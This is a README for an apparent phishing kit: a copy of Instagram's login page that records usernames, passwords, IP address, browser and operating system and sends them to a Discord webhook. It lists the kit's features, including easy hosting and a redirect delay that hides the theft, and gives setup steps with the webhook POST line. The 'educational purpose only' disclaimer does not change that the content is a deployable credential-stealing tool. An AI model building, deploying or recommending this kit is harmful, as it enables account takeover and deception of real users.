


# 📸 Instagram-Like Credential Logger (Educational Purpose Only)

> ⚠️ **Disclaimer**  
> This project is intended strictly for **educational**, **testing**, or **authorized cybersecurity simulations** only. Unauthorized use of this tool for phishing, credential theft, or deception is **illegal** and against GitHub’s and Discord’s terms of service.

---

## 🚀 About the Project

This is a **replica of Instagram's login UI** that logs user credentials and sends them to a specified **Discord webhook** using an embed format. It also captures the **user's IP address**, **browser information**, and **operating system** for simulation of phishing scenarios or penetration testing environments.

---

## 🖥️ Interface Of Phishing Site:

 
 

---

## 🧰 Features

- 📥 Captures `username` and `password`
- 🌐 Logs user's **IP address**
- 🖥️ Logs **Browser** and **Operating System**
- 📤 Sends all data via **Discord Embed** with rich formatting
- 🪞 Fully responsive and styled to match Instagram login UI
- ⏳ Includes redirect delay (2 seconds) after login
- 🌐 Easily hosted on GitHub Pages, Netlify, or localhost

---

## 🛠️ Discord Webhook Setup Instructions

### 1. Locate the Webhook Function

- Open the `index.html` file in your code editor.
- Scroll down to find the `sendMessage()` JavaScript function.

### 2. Update the Webhook URL

Inside the `sendMessage()` function, look for this line:

request.open("POST", "https://discord.com/api/webhooks/...");

- Replace it with your actual Discord webhook URL. You can create one via:
- Discord → Server Settings → Integrations → Webhooks → New Webhook
- Then update the code
